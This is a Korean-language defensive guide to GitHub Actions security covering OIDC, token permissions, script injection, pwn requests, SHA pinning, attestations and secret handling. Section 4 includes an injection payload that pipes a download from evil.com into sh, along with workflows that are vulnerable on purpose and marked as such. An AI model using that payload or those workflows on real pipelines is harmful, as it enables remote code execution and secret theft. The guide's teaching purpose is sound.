

# GHA 보안

> **CI/CD는 가장 매력적인 공격면**이다. 레포에 push 권한만
> 얻으면 워크플로에서 클라우드·레지스트리·프로덕션으로 접근 가능.
> 본 글은 2026-04 기준 GHA 보안의 네 축 — **OIDC(단기 자격증명)·
> Permissions(GITHUB_TOKEN 최소권한)·Untrusted input(스크립트
> 인젝션·pwn request)·Artifact Attestation(공급망 서명)** 을
> 실제 공격 시나리오와 방어 설정 중심으로 정리한다.

- **전제**: [GHA 기본](./gha-basics.md)·[GHA 고급](./gha-advanced.md)
- **경계**: Vault·ESO·SOPS 등 Secret **도구** 자체는 `security/`로
  위임. 여기는 "GHA에서 어떻게 쓰는가"만. SAST·이미지 스캔은
  `cicd/devsecops/` 참조. ARC 러너 하드닝은 [ARC 러너](./arc-runner.md)
- **현재 기준**: **`actions/attest-build-provenance@v4`**
  (v4부터 `actions/attest` 래퍼 — 신규 구현은 `actions/attest` 직접
  권장), `aws-actions/configure-aws-credentials@v4`, `actions/checkout@v5`,
  Artifact Attestations GA (2024-10), SLSA Build L2 기본 제공
- **최근 공급망 사고**: **tj-actions/changed-files** (CVE-2025-30066,
  2025-03)·**reviewdog** (CVE-2025-30154) — mutable 태그를
  악성 SHA로 이동시켜 23K+ 레포 secret 탈취. SHA 핀의 당위성을
  실증한 최근 사례

---

## 1. 위협 모델

### 1.1 공격면

| 공격면 | 영향 |
|---|---|
| `GITHUB_TOKEN` 권한 과다 | 레포 쓰기·릴리스·패키지 변조 |
| 장기 PAT·클라우드 키 | 유출 시 지속 침해 |
| 악성 Action 호출 | 공급망 감염·secret 탈취 |
| Fork PR의 untrusted input | 스크립트 인젝션·pwn request |
| Self-hosted + public repo | 임의 코드 실행(RCE)·네트워크 피벗 |
| 서명 안 된 아티팩트 | 무결성 검증 불가 |

### 1.2 원칙

- **최소권한 기본값**: `permissions: contents: read`에서 시작
- **단기·감사 가능 자격증명**: OIDC 페더레이션으로 static secret 제거
- **입력을 데이터로 취급**: 절대 직접 셸 문자열에 삽입하지 않기
- **공급망 핀·검증**: Action은 SHA 핀, 아티팩트는 서명·검증
- **경계·승인 게이트**: Environment + Required reviewer

---

## 2. OIDC — 단기 클라우드 자격증명

### 2.1 개념

GHA가 워크플로 실행마다 **JWT(OIDC 토큰)**를 발급하고, 클라우드가
**Trust Policy**로 그 JWT를 검증해 임시 자격증명을 돌려준다. 결과적으로
**레포에 long-lived 키를 저장할 필요 없음**.



### 2.2 워크플로 설정 기본

```yaml
permissions:
  id-token: write              # OIDC 토큰 발급 권한
  contents: read

jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v5
      - uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/gha-deploy
          aws-region: ap-northeast-2
      - run: aws s3 ls
```

- `id-token: write`가 **없으면** OIDC 토큰 발급 불가 → static 키
  fallback으로 회귀
- `contents: read`도 같이 — OIDC만 명시하면 checkout이 막힘

### 2.3 AWS Trust Policy

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {
      "Federated": "arn:aws:iam::123456789012:oidc-provider/token.actions.githubusercontent.com"
    },
    "Action": "sts:AssumeRoleWithWebIdentity",
    "Condition": {
      "StringEquals": {
        "token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
      },
      "StringLike": {
        "token.actions.githubusercontent.com:sub": "repo:my-org/my-repo:ref:refs/heads/main"
      }
    }
  }]
}
```

**`sub` 클레임 설계 — 가장 중요한 방어**:

| 용도 | `sub` 패턴 |
|---|---|
| 특정 레포의 main | `repo:my-org/my-repo:ref:refs/heads/main` |
| 특정 레포 모든 브랜치 | `repo:my-org/my-repo:*` |
| 특정 Environment | `repo:my-org/my-repo:environment:production` |
| 특정 태그(릴리스만) | `repo:my-org/my-repo:ref:refs/tags/v*` |
| 특정 워크플로 파일 | `repo:my-org/my-repo:workflow:deploy.yml` |
| **중앙 reusable 워크플로 호출자 검증** | `job_workflow_ref:my-org/central/.github/workflows/deploy.yml@refs/heads/main` |

**`job_workflow_ref`의 중요성** — 조직 표준 파이프라인을 중앙
레포에서 `workflow_call`로 호출하는 구조일 때, 단순히 `repo:...:sub`만
검증하면 **임의 레포가 자기 워크플로로 클라우드 Role 탈취** 가능.
`job_workflow_ref`를 조건에 포함시켜 **"검증된 중앙 워크플로로
호출됐을 때만"** 인증. 2022년 GitHub에서 공식 권장.

**원칙**: `*`만 있는 와일드카드는 금지. 최소한 **레포·ref 또는
Environment 단위**로 제한. 조직 단위 `repo:my-org/*`는 내부 악성
레포에 권한 넘김 → Environment + required reviewer 조합 권장.

### 2.4 Azure·GCP·HashiCorp

| 클라우드 | 액션 | 포인트 |
|---|---|---|
| Azure | `azure/login@v2` | Federated Credential에 `sub`·`aud` 매칭, `client-id`·`tenant-id`·`subscription-id` 필요 |
| GCP | `google-github-actions/auth@v2` | Workload Identity Pool + Provider, `service_account` 제한 |
| HashiCorp Vault | `hashicorp/vault-action@v3` | JWT auth method, role binding |
| Kubernetes | `azure/setup-kubectl`·`aws-actions/configure-aws-credentials` 연계 | 클러스터 자체에 OIDC RBAC 적용 |

### 2.5 Custom Claims (2026 업데이트)

2026-04 업데이트로 **Repository Custom Properties가 OIDC claim**에
포함. 정책 레이어에서 "tier=prod" 속성을 가진 레포만 프로덕션
Role에 접근 허용 같은 더 정교한 트러스트 정책이 가능하다.

---

## 3. `GITHUB_TOKEN` 최소권한

### 3.1 기본 스코프 개요

| 스코프 | 값 | 대표 용도 |
|---|---|---|
| `actions` | read/write | 워크플로 조회·취소 |
| `contents` | read/write | 코드 체크아웃·태그 생성 |
| `issues` | read/write | 이슈 코멘트 |
| `pull-requests` | read/write | PR 코멘트·상태 |
| `packages` | read/write | GHCR push/pull |
| `id-token` | write | OIDC |
| `attestations` | read/write | 아티팩트 서명·검증 |
| `deployments` | read/write | Deployment API |
| `security-events` | read/write | Code Scanning SARIF 업로드 |

전체 15여개 — 필요한 것만 명시. 조직 설정에서 **기본값을
`read-only`**로 바꾸면 레포별 명시 없이는 쓰기 불가 (권장).

### 3.2 계층

```yaml
# 워크플로 전역 — 모든 잡의 기본값
permissions:
  contents: read
  pull-requests: read

jobs:
  test:
    runs-on: ubuntu-latest
    # 잡 레벨 — 전역보다 우선
    permissions:
      contents: read
    steps: ...

  deploy:
    permissions:
      contents: read
      id-token: write
      packages: write
    steps: ...
```

- `permissions: {}` → **모두 none**
- `permissions: write-all` → 모든 스코프 write (**금지**)
- 잡별 선언이 워크플로 전역을 **대체**(병합 아님)

### 3.2.1 Reusable Workflow의 permissions 감쇄

Reusable workflow는 **caller의 권한을 상한으로** 받는다. 즉
caller가 `contents: read`면 callee가 `contents: write`를 선언해도
**무시** — 권한 확장은 불가, 축소·동일만 가능.

```yaml
# caller.yml
permissions:
  contents: read
  id-token: write
jobs:
  deploy:
    uses: ./.github/workflows/reusable-deploy.yml
    # callee의 permissions는 위 집합 내에서만 유효
```

조직 표준 reusable workflow를 설계할 때는 **caller에게 "이 권한
계약이 필요하다"**를 명시적으로 문서화해야 한다.

### 3.3 흔한 오설정

| 증상 | 원인 | 해결 |
|---|---|---|
| Artifact upload 실패 | `actions: read` 만 | 필요 없음 — GITHUB_TOKEN이 잡 스코프로 자동 처리 |
| `gh pr comment` 실패 | `pull-requests: write` 누락 | 해당 잡에 추가 |
| OIDC 토큰 못 받음 | `id-token: write` 누락 | 해당 잡에 명시 |
| GHCR push 403 | `packages: write` 누락 or 조직 방화벽 | 스코프 + 조직 설정 |
| PR에서 release 생성 실패 | fork PR의 GITHUB_TOKEN 읽기전용 | 별도 `workflow_run` 또는 수동 release |

### 3.4 최소권한 탐색 도구

- **StepSecurity Harden-Runner** — eBPF로 실제 HTTPS 호출 경로를
  관찰해 **필요한 스코프만** 추천
- **OpenSSF Scorecard** — `Token-Permissions` 체크로 워크플로
  파일의 `permissions:` 존재·범위를 점수화
- **CodeQL Actions 쿼리** — `permissions: write-all` 류 패턴 탐지

---

## 4. Untrusted Input — 스크립트 인젝션 방어

### 4.1 공격 시나리오

```yaml
# 🚫 취약
on: [issues]
jobs:
  greet:
    runs-on: ubuntu-latest
    steps:
      - run: echo "New issue: ${{ github.event.issue.title }}"
```

공격자가 이슈 제목을 `"; curl evil.com | sh; "`로 제출하면
`echo "New issue: "; curl evil.com | sh; ""`로 셸에 들어가 **RCE**.

### 4.2 신뢰할 수 없는 입력 목록

| 필드 | 공격자 제어 |
|---|---|
| `github.event.issue.title`·`body` | 완전 |
| `github.event.comment.body` | 완전 |
| `github.event.pull_request.title`·`body` | 완전 |
| `github.event.pull_request.head.ref`·`head.label` | 완전 (브랜치명) |
| `github.event.review.body` | 완전 |
| `github.head_ref` | 완전 (브랜치명) |
| 커밋 메시지 (첫 줄 포함) | 완전 |
| 이름·이메일 (Author/Committer) | 완전 |

### 4.3 방어 패턴

**1) 환경변수로 감싸기**:

```yaml
# ✅ 안전 — expression은 env 선언 시점에만 평가
- env:
    ISSUE_TITLE: ${{ github.event.issue.title }}
  run: echo "New issue: $ISSUE_TITLE"
```

**2) 입력을 argv로**:

```yaml
- uses: actions/github-script@v7
  with:
    script: |
      const title = context.payload.issue.title   // 데이터로 취급
      core.info(`New issue: ${title}`)
```

JavaScript Action은 context 값을 **인자**로 받으므로 셸 파싱 경로
자체가 없다.

**3) 엄격 검증**:

```yaml
- name: Validate ref
  env:
    REF: ${{ github.head_ref }}
  run: |
    if [[ ! "$REF" =~ ^[A-Za-z0-9._/-]+$ ]]; then
      echo "::error::Invalid ref"
      exit 1
    fi
```

### 4.4 Pwn Request — `pull_request_target` 함정

```yaml
# 🚫 치명적
on: pull_request_target
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v5
        with:
          ref: ${{ github.event.pull_request.head.sha }}   # 포크의 PR 코드
      - run: ./test.sh                                     # secret 노출됨
        env:
          NPM_TOKEN: ${{ secrets.NPM_TOKEN }}
```

`pull_request_target`은 **base 권한으로 실행**되므로 secret 접근
가능. 여기서 **포크 PR의 코드를 체크아웃·실행**하면 공격자는
자기 코드에서 secret을 유출할 수 있다 — **pwn request**.

**안전 패턴**:

- **기본**: fork PR은 `pull_request`로만, secret은 주입 안 함
- **필요 시**: `pull_request_target` + **Environment 승인 게이트**
  로 사람 리뷰 단계 강제
- 라벨·코멘트 등 PR **메타데이터만** 다룰 때 `pull_request_target`을
  쓰고, **PR 코드 자체는 절대 실행 금지**

### 4.5 `workflow_run`·`repository_dispatch`의 함정

`workflow_run`은 **호출되는 워크플로 파일이 default branch에 있어야**
실행된다 — PR이 바꾼 정의가 아니라 **main 브랜치의 정의**가 돈다.
보안 측면에선 바람직하지만, **PR이 산출한 artifact**를 소비하면서
secret을 쓰면 공격자가 artifact에 악성 파일을 심어 유출할 수 있다.

```yaml
# 🚫 위험 — PR artifact를 검증 없이 소비하며 secret 접근
on:
  workflow_run:
    workflows: ["CI"]
    types: [completed]
jobs:
  publish:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/download-artifact@v4
        with:
          run-id: ${{ github.event.workflow_run.id }}
      - run: ./publish.sh
        env:
          NPM_TOKEN: ${{ secrets.NPM_TOKEN }}
```

**안전 패턴**: 소비 전 artifact **서명 검증**, PR 브랜치가 아닌
main 이벤트에만 secret 주입, Environment 승인 게이트.

`repository_dispatch`의 `client_payload`도 **untrusted**. 외부
시스템이 주입하는 값이므로 그대로 셸에 삽입 금지, env 경유 필수.

---

## 5. 공급망 — Action 핀과 검증

### 5.0 실증 사례 — tj-actions·reviewdog (2025-03)

**tj-actions/changed-files (CVE-2025-30066)** — 공격자가 메인테이너
계정을 탈취해 **모든 기존 버전 태그를 단일 악성 SHA로 이동**.
해당 SHA의 Action이 워크플로 실행 중 러너 메모리의 secret을 로그에
덤프 → 공개 레포라면 Actions 로그에서 누구나 읽을 수 있음.
**23,000개 이상 레포 영향**, CISA 경보 발령. 이어서 **reviewdog
(CVE-2025-30154)** 에도 같은 수법 확인.

**핵심 교훈**:

- `@v1` 같은 mutable 태그는 **하루 만에 적대적 코드로 바뀔 수 있다**
- 퍼블릭 레포의 Actions 로그는 secret 유출 채널 — Artifact에 업로드
  되거나 로그에 print된 secret은 **사후 마스킹해도 이미 읽혔음**
- SHA 핀 + Dependabot이 단독으로 충분하지 않음 → **변경 PR의 디프
  리뷰, Harden-Runner audit** 필수

### 5.1 참조 방식별 위험

| 방식 | 위험 |
|---|---|
| `@main` | 레포 주인이 언제든 변경 → 공격 창구 |
| `@v3` (major 태그) | 레포 주인이 태그를 **다른 SHA로 이동** 가능 |
| `@v3.1.2` (full semver) | 태그는 mutable — 위와 동일 위험 |
| `@<40-char SHA>` | **immutable**, 공급망 표준 |

### 5.2 SHA 핀 운영

```yaml
- uses: actions/checkout@a81bbbf8298c0fa03ea29cdc473d45769f953675  # v5.0.0
- uses: aws-actions/configure-aws-credentials@e3dd6a429d7300a6a4c196c26e071d42e0343502  # v4.0.2
```

주석에 semver를 남겨 사람이 읽기 쉽게. 갱신은:

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: "github-actions"
    directory: "/"
    schedule:
      interval: "weekly"
```

Dependabot이 SHA를 주기적으로 갱신하는 PR 생성. Renovate의
`pinDigests: true`도 동등.

### 5.3 조직 수준 허용 목록

Settings → Actions → General:

- "Allow `my-org`, and select non-`my-org` actions and reusable
  workflows" — Marketplace 전체 차단, 화이트리스트만
- `actions/*`·`github/*`·verified creator·특정 경로 지정 가능
- Enterprise는 **policy as code**로 고정 가능 (rule set + OpenPolicyAgent)

### 5.4 Action 자체 감사

핀한 SHA의 코드를 한 번 읽고 들여오는 리뷰 절차. 특히
`run:` 안에 외부 URL 다운로드·`eval` 사용이 있는지. 외부
action의 새 버전 PR에서는 **디프만이 아니라 변경된 SHA 전체 포함
파일**을 확인.

---

## 6. Artifact Attestations — SLSA·Sigstore 서명

### 6.1 개념

워크플로가 빌드한 아티팩트(이미지·바이너리·SBOM 등)에 **Sigstore**
서명과 **SLSA Build Provenance** 증명서를 붙이고, GitHub에 저장.
소비자는 `gh attestation verify`로 **누가·어떤 워크플로·어떤 커밋**
으로 빌드했는지 검증.

Artifact Attestations로 **기본 SLSA Build Level 2** 달성.

### 6.2 빌드 프로비넌스 생성

```yaml
permissions:
  id-token: write         # Sigstore 서명용 OIDC
  contents: read
  attestations: write     # 증명서 업로드

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v5
      - id: build
        run: |
          make build
          echo "digest=$(sha256sum dist/app.tar.gz | cut -d' ' -f1)" >> "$GITHUB_OUTPUT"

      - uses: actions/attest-build-provenance@v4
        with:
          subject-path: dist/app.tar.gz
          # 또는
          # subject-name: ghcr.io/org/app
          # subject-digest: sha256:abc...
```

컨테이너 이미지는 `docker/build-push-action`이 푸시 후 digest를
돌려주면 그 digest로 attest. 여러 주체를 한 번에 서명 가능.

### 6.3 SBOM Attestation

```yaml
- uses: anchore/sbom-action@v0
  with:
    path: dist
    output-file: sbom.spdx.json

- uses: actions/attest-sbom@v3
  with:
    subject-path: dist/app.tar.gz
    sbom-path: sbom.spdx.json
```

SBOM을 **attestation predicate**로 아티팩트에 묶음. 소비 측은
이미지 digest만 알면 `gh attestation verify --predicate-type spdx`로
SBOM을 조회.

### 6.4 소비자 검증

```bash
# 이미지 검증
gh attestation verify oci://ghcr.io/org/app:v1 \
  --repo my-org/my-repo

# 파일 검증
gh attestation verify ./app.tar.gz --repo my-org/my-repo
```

또는 Cosign/Sigstore CLI로도 검증 가능. 정책 엔진과 연동하면 **K8s
Admission Controller**(Kyverno·Ratify)가 서명 없는 이미지 배포 차단.

### 6.5 Sigstore 인스턴스

- **Public 레포** → Sigstore **public-good** 인스턴스 (Fulcio + Rekor
  투명성 로그)
- **Private 레포** → **GitHub private Sigstore 인스턴스**. 투명성
  로그가 public으로 노출되지 않음

### 6.6 SLSA 레벨 로드맵

| 레벨 | 요구 | GHA 제공 |
|---|---|---|
| L1 | 스크립트로 빌드 재현 가능 | 기본 |
| L2 | 호스티드 빌드 + 서명된 provenance | **Artifact Attestations 기본 제공** |
| L3 | 격리·변조 방지 빌드 플랫폼 | GitHub-hosted 또는 Hermetic ARC 구성 시 |
| L4 | 두 명 리뷰 등 거버넌스 | Environment + required reviewer 조합 |

---

## 7. Secret 관리

### 7.1 스코프 계층

| 스코프 | 용도 | 주의 |
|---|---|---|
| Organization | 공통 — 조직 전체 | 레포 접근 목록 제한 필수 |
| Repository | 레포 전용 | 기본 단위 |
| Environment | 배포 단계별 | 승인·브랜치 보호와 결합 |
| Dependabot | 의존성 업데이트 전용 | 일반 워크플로와 격리 |

- 가장 좁은 스코프를 기본으로. "프로덕션 DB 비밀번호"는
  **Environment=production**에만 두고, PR에서는 접근 불가

### 7.2 Secret 크기·타입 제한

- 하나당 **48KB** 상한
- 텍스트만 — 바이너리는 base64 인코딩
- **로그 자동 마스킹** — 단 변형(예: `base64 -d`)된 값은 마스킹 회피
  가능 → 로그 출력 자체를 피하기

### 7.3 Vault·ESO 연동

- 장기 secret은 Vault·AWS SM·Azure KV·GCP SM에
- Workflow에서 **`hashicorp/vault-action`**이나
  **`aws-actions/configure-aws-credentials` + `aws secretsmanager`**
  로 필요할 때만 조회
- **ARC 러너 + ESO** 조합이면 K8s Secret으로 주입 후 잡이 소비
- 자세한 도구별 설정은 `security/` 글

### 7.4 GitHub App vs Fine-grained PAT vs Classic PAT

| 축 | GitHub App | Fine-grained PAT | Classic PAT |
|---|---|---|---|
| 소유 | 조직·봇 | 사용자 | 사용자 |
| 수명 | 설치형 영구·토큰 1h | 최대 1년(만료 강제) | 무기한 가능 |
| 권한 단위 | 레포별·스코프별 fine-grained | 레포별·스코프별 | 계정 전체 |
| 감사 | Installation 로그 | 생성·사용 로그 | 제한적 |
| Rate limit | 높음(설치 수로 확장) | 5k/h | 5k/h |
| 퇴사 영향 | 없음 | 즉시 만료 | 즉시 만료 |
| 권장 | **조직 CI/CD 표준** | 개발자 개인 스크립트 | **사용 지양** |

### 7.5 Artifact·로그 유출 경로

`actions/upload-artifact`로 올린 파일은 **레포 읽기 권한만 있으면
다운로드 가능**. 퍼블릭 레포는 누구나, 프라이빗도 협력자 전원.
워크플로가 `.env`·`credentials.json`을 실수로 번들에 포함하거나,
`set -x` 디버그 스크립트가 secret을 로그에 남기면 **사후 마스킹
무의미**. tj-actions 사건의 실제 피해 경로가 이것.

**방어**:

- `upload-artifact`의 `path:`를 명시적으로 좁히기 (`dist/` 같은
  특정 디렉터리만)
- 빌드 스크립트에서 `set -x` 금지, `--silent`·`--quiet` 플래그 사용
- Artifact 보존 기간 최소화 (`retention-days: 1`)
- Pre-commit 스캐너(gitleaks·TruffleHog)로 커밋 전 유출 차단

### 7.6 안티패턴

| 안티패턴 | 해결 |
|---|---|
| `AWS_ACCESS_KEY_ID` 상시 secret | OIDC로 전환 |
| PAT를 `PERSONAL_TOKEN` secret으로 | GitHub App fine-grained token |
| `echo ${{ secrets.X }}` 로그 출력 | 마스킹 우회 위험, 절대 금지 |
| secret을 매트릭스·입력에 삽입 | env로 감싸고 필요한 잡에만 |
| 외부 fork PR이 secret 필요 | Environment 승인 게이트 |
| Artifact에 전체 빌드 디렉터리 업로드 | 구체 경로로 좁히고 보존기간 단축 |

---

## 8. 실행 환경 하드닝

### 8.1 러너

- **호스티드**: GitHub 관리, Ephemeral — 기본 안전
- **Self-hosted·ARC**: public repo 금지, ephemeral 모드, 전용 노드풀
  (상세 [ARC 러너](./arc-runner.md))

### 8.2 Harden-Runner

`step-security/harden-runner@v2`를 **첫 스텝**에 추가하면 egress
필터링·파일시스템 모니터링으로 의심 네트워크 호출 차단·가시성 확보.

```yaml
- uses: step-security/harden-runner@v2
  with:
    egress-policy: audit          # 또는 block
    allowed-endpoints: >
      api.github.com:443
      github.com:443
      registry.npmjs.org:443
```

### 8.3 브랜치·태그 보호

- `main` branch protection: required checks + reviewer
- Tag protection: 릴리스 태그 변조 방지 (`v*`)
- **Repository Rulesets**: required workflows to pass, status checks,
  signed commits 강제 (조직 단위)

### 8.4 Environment 기반 승인

```yaml
jobs:
  deploy-prod:
    environment:
      name: production
      url: https://app.example.com
    permissions:
      id-token: write
      contents: read
```

Environment 보호 규칙:

- **Required reviewers**: 사람이 승인해야 실행 — SLSA L4의 기반
- **Wait timer**: 배포 지연 (roll-back 여유)
- **Deployment branches**: `main`·`release/*`만 허용
- **Environment secrets**: 프로덕션 전용 자격증명 격리

---

## 9. 감사와 탐지

### 9.1 이벤트 로그

- **Audit Log** (org 설정): workflow 변경·secret 생성·OIDC 토큰
  발급 이력
- `actions/list-workflow-runs`·`actions/get-workflow-usage` API로
  이상 사용 패턴 탐지
- SIEM 연계(Splunk·Datadog·Elastic)로 장기 보관

### 9.2 정책·스캐너

| 도구 | 용도 |
|---|---|
| OpenSSF Scorecard | 레포 보안 점수 (17개 항목) |
| StepSecurity | Actions·러너 전용 하드닝 |
| zizmor | 정적 분석 — 스크립트 인젝션·permissions 미설정 탐지 |
| actionlint | 문법·표현식 오류 린트 |
| gh-actions-pin | SHA 핀 자동화 |
| GitGuardian / TruffleHog | 커밋·로그에 secret 유출 탐지 |

### 9.3 권장 최소 파이프라인

1. `zizmor` · `actionlint` — PR 단계 린트
2. SHA 핀 필수 (Dependabot 자동)
3. OpenSSF Scorecard 주기 실행 (레포 배지)
4. Harden-Runner audit → block 단계적 전환
5. Attest-build-provenance → 운영 소비 지점에서 검증

---

## 10. 체크리스트

### 10.1 워크플로 설계

- [ ] `permissions: contents: read`로 시작, 필요한 스코프만 잡 레벨 추가
- [ ] 외부 Action은 **전부 SHA 핀**, Dependabot으로 갱신
- [ ] Untrusted input은 `env:`로 감싸 사용
- [ ] `pull_request_target` + fork 코드 실행 금지
- [ ] `timeout-minutes` 명시

### 10.2 자격증명

- [ ] long-lived 클라우드 키 없음 — OIDC 페더레이션만
- [ ] Trust Policy의 `sub` 클레임에 레포·ref 또는 Environment 제약
- [ ] Secret은 Environment 스코프 우선
- [ ] GitHub App > PAT (사용자 종속 탈피)

### 10.3 공급망

- [ ] `actions/attest-build-provenance`로 모든 릴리스 아티팩트 서명
- [ ] SBOM attestation까지 포함 → SLSA L2
- [ ] 소비 시 `gh attestation verify` 또는 admission controller
- [ ] 조직 Allowed actions 화이트리스트

### 10.4 운영

- [ ] main·릴리스 태그 보호 + required checks
- [ ] Production Environment에 reviewer·deployment branches 설정
- [ ] Audit log SIEM 연계
- [ ] OpenSSF Scorecard 점수 추적

---

## 참고 자료

- [OpenID Connect in GitHub Actions — Docs](https://docs.github.com/en/actions/concepts/security/openid-connect) (2026-04 확인)
- [Configuring OIDC in AWS / Azure / GCP](https://docs.github.com/actions/deployment/security-hardening-your-deployments)
- [Secure use reference — GitHub Docs](https://docs.github.com/en/actions/reference/security/secure-use)
- [Script injections — GitHub Docs](https://docs.github.com/en/actions/concepts/security/script-injections)
- [Keeping your GitHub Actions secure — GitHub Security Lab (pwn requests, untrusted input)](https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/)
- [Artifact attestations — GitHub Docs](https://docs.github.com/en/actions/concepts/security/artifact-attestations)
- [actions/attest-build-provenance](https://github.com/actions/attest-build-provenance)
- [aws-actions/configure-aws-credentials](https://github.com/aws-actions/configure-aws-credentials)
- [OpenSSF Scorecard](https://github.com/ossf/scorecard)
- [StepSecurity Harden-Runner](https://github.com/step-security/harden-runner)
- [SLSA Framework](https://slsa.dev)
- [Sigstore](https://www.sigstore.dev/)
- [Using OIDC with reusable workflows — GitHub Docs](https://docs.github.com/en/actions/how-tos/secure-your-work/security-harden-deployments/oidc-in-reusable-workflows)
- [OIDC reference — sub claim 전체 포맷](https://docs.github.com/en/actions/reference/security/oidc)
- [CISA alert — tj-actions/changed-files supply-chain compromise (CVE-2025-30066)](https://www.cisa.gov/news-events/alerts/2025/03/18/supply-chain-compromise-third-party-github-action-cve-2025-30066)
- [Wiz — tj-actions 분석](https://www.wiz.io/blog/github-action-tj-actions-changed-files-supply-chain-attack-cve-2025-30066)
- [OpenSSF — Maintainers' guide post tj-actions/reviewdog](https://openssf.org/blog/2025/06/11/maintainers-guide-securing-ci-cd-pipelines-after-the-tj-actions-and-reviewdog-supply-chain-attacks/)
